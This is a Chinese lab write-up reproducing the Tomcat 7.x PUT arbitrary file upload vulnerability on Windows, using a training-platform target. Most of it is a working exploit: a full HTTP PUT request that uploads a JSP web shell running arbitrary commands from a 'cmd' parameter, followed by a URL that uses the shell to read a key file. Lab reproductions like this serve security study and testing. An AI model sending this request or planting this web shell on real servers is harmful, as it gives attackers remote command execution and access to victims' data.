 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/120  
复现版本：Tomcat 7.0.79

# 0x01 环境搭建
无

# 0x02 利用条件
安装在Windows下

# 0x03 影响版本
7.0.0 <= Tomcat <= 7.0.79

# 0x04 漏洞复现
攻击环境：kali2020

访问目标地址，burp抓包，改包如下：  
```
PUT /cmd.jsp// HTTP/1.1
Host: 219.153.49.228:45174
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 313

<%
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```
Send后，返回如下，返回“HTTP/1.1 201 Created”表示文件创建成功  
![image](./f0.png)  
访问如下URL：http://219.153.49.228:45174/cmd.jsp?cmd=cat%20/key.txt 后，返回执行命令后的结果  
![image](./f1.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
